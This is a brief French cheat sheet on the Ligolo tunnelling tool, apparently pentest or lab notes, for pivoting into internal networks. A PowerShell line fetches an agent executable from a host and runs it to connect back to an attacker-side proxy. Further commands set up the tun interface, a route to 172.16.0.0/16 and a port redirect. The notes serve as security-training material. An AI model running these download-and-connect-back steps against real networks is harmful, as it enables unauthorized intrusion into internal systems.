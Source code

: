 Permet d'accéder aux réseaux internes et de créer un tunnel qui fonctionne dans les 2 sens.

# Client
## Windows

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ powershell
iwr -uri http://192.168.45.241/windows/ligolo-agent.exe -outfile ligolo-agent.exe;
./ligolo-agent.exe -ignore-cert -connect 10.10.14.8:11601;
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
# Serveur
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sudo ip tuntap add user corsaire mode tun ligolo && sudo ip link set ligolo up
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Regarder comment ne pas avoir à utiliser -selfcert
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ bash
ligolo-proxy -selfcert
#attendre connexion puis
session
#choisir connexion
start
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Créer une route
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ bash
sudo ip route add 172.16.0.0/16 dev ligolo
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
# Écoute/redirection interne
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ bash
listener_add --addr 0.0.0.0:8001 --to 127.0.0.1:80 --tcp
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

  